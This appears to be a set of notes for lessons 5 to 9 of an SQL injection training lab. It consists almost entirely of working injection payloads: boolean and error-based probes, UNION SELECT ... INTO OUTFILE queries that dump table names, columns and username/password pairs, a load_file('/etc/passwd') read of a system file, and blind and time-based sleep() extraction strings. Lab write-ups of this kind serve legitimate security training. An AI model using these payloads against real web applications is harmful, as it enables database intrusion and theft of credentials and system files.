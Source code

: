 ### Basic injection: 5 and 5


### Lesson 5
---
?id=' or 1=1--+
?id=' or '1'='1
?id=' or 1=1%23
---

### Lesson 6

---
?id=1" or 1=1--+
?id=1" or "1"="1
?id=1" or 1=1%23


For example, to get the database name: ?id=1' and (select 1 from (select count(*),concat(database(),floor(rand()*2))a from information_schema.tables group by a)b)--+
---

### Lesson 7

---
?id=1')) UNION SELECT(select database()),2,3 into outfile "/var/www/html/sqli/Less-7/1.txt";--+ Content of 1.txt: 

Get all table names of 'security':

?id=1')) UNION SELECT (select group_concat(table_name) from information_schema.tables where table_schema='security'),2,3 into outfile "/var/www/html/sqli/Less-7/2.txt";--+

Get all columns of table 'users':

?id=1')) UNION SELECT (select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),2,3 into outfile "/var/www/html/sqli/Less-7/3.txt";--+

Get all username&password pairs:
?id=1')) UNION SELECT id, username, password from users into outfile "/var/www/html/sqli/Less-7/4.txt";--+

Also can load_file("/etc/passwd") to dump the passwd file:

?id=1')) union select load_file("/etc/passwd"),2,3 into outfile "/var/www/html/sqli/Less-7/5.txt";--+


---

###  Lesson-8 (Blind SQLi+)


---
?id=1' and (select substr(version(),1,1))<6--+
?id=1' and (select substr(version(),1,1))<5--+
?id=1' and (select substr(version(),1,1))=5--+

Get the database name

?id=1' AND (ascii(substr(database(),1,1))>ascii('a'))--+ returns true.
?id=1' AND (ascii(substr(database(),1,1))>ascii('x'))--+ returns false.
?id=1' AND (ascii(substr(database(),1,1))<ascii('m'))--+ returns false.
?id=1' AND (ascii(substr(database(),1,1))=ascii('s'))--+ returs true. So the first character is 

Get the table name
?id=1' AND (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='security'),1,1))=ascii('e'))--+
?id=1' AND (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=ascii('e'))--+
?id=1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=ascii('e'))--+

Get columns

?id=1' AND (ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),1,1))=ascii('i'))--+

?id=1' AND (ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),1,1))=ascii('i'))--+

---

### Lesson-9 ( Time-based SQLi)

---
Basic query to detect sqli+

?id=1' and sleep(10)--+

Get version

?id=1' and if(substr(version(),1,1)=5, sleep(10),null)--+

Get database

?id=1' and if(substr(database(),1,1)='s', sleep(10),null)--+

---